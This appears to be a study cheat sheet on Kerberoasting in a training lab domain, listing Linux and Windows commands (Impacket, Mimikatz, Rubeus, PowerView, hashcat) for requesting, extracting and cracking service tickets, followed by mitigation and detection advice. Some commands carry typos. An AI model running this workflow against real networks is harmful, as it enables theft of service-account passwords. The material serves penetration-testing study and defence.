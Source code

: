 - SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

-----
# FROM LINUX
-----
### GetUserSPNs.py
- List SPN Accounts
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/$USER
```
- Pull all TGS tickets for offline processing
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request
```
- Request a single TGS ticket
```bash
GetUserSPNs.py -dc-ip $IPP INLANEFREIGHT.LOCAL/forend -request-user sqldev 
```
- Saving TGS Ticket to a file
```bash
GetUserSPNs.pyu -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputifle sqldev_tgs
```
- Cracking Ticket Offline with Hashcat
```bash
hashcat -m 13100 sqldev_tgs rockyou.txt
```
- Test Authentication against a Domain Controller
```bash
sudo crackmapexec smb $IP -u sqldev -p database!
```


-----
# FROM WINDOWS
-----
- Enumerate SPNs with setspn.exe
```cmd
setspn.exe -Q */*
```

- Target a Single User
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $USER #"MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Options
Add-Type: used to add a .NET framework class to PowerShell session.
-AssemblyName: parameter allows us to specify an assembly that contains types taht we are interested in using
System.Identity Model: namespace that contains different classes for building security token services
New-Object: create an instance of a .NET Framework object
System.IdentityModel.Tokens: namespace with the KerberosRequestorSecurityTOken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session.
```

- Retrieve All tickets using setspn.exe
```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

- Extract Tickets from memory with Mimikatz
```cmd
base64 /out:true # If this is not set, Mimikatz will extract the tickets and writethem to `.kirbi` files
kerberos::list /export
```

- Prepare the Base64 Blob for cracking
```bash
echo $BASE64 | tr -d \\n
```

- Place the Output into a file as .kirbi
```bash
cat encoded_file | base64 -d > $file
```

- Extract the Kerberos ticket using kirbi2john.py
```bash
# This will create a file called "cracked_file"
python kirbi2john.py sqldev.kirbi
```

- Modify `crack_file` for Hashcat
```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

- Crack the Hash using hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat rockyou.txt
```

==========================================
| AUTOMATED / TOOLBASED ROUTE |
==========================================

### PowerView
```PowerShell
Import-Module ./PowerView.ps1
Get-DomainUser * -spn | select samaccountname

# Target a specific user
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Export all tickets to a CSV file
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

# View the content of the CSV file
cat ./ilfreight_tgs.csv
```

### Rubeus
- Use Rubeus with /stats
```bash
Rubeus.exe kerberoast /stats
# This will give overall information of all users
```

- Use Rubeus with /nowrap flag
```PowerShell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
/nowrap: make it easier to copy the hash for offline cracking.
```

- Use Kerberoasting for a specific user
```PowerShell
Rubeus.exe Kerberoast /user:$USER /nowrap
```

- Kerberoasting tools typically request RC4 encryption when performing the attack => easier to crack than AES-128 & AES-256.

- RC4 hashes start with `$krb5tgs$23$*` while AES-256 ones start with `$krb5tgs$18$*`

- Crack ticket with Hashcat
```bash
hashcat -m 13100 rc4_to_crack rockyou.txt
```

- To check what type of encryption is used for a user
```PowerShell
Get-DomainUser $USER -Properties samaccountname, serviceprincipalname, msds-supportedencryptiontypes
```

- Refer to this [sheet](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) for encryption types.
	- `msDS-SupportedEncryptionTypes=0`: use default encryption type (RC4)
	- `msDS-SupportedEncryptionTypes=24`: use AES 128/256

- Use Hashcat to crack hashes
```bash
hashcat -m 19700 aes_to_crack rockyou.txt
```

- To use only RC4 encryption, use Rubeus with `/tgtdeleg`
```PowerShell
Rubeus.exe kerberast /tgtdeleg /user:testspn /nowrap
```


-----
# MITIGATION & DETECTION
-----
- Set a long and complex password.
-  Use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with LAPS.
- Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occurring in the environment, we will see an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses, signaling the use of automated Kerberoasting tools. Domain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy.
- Two events IDs are generated: [4769](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested and [4770](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed.
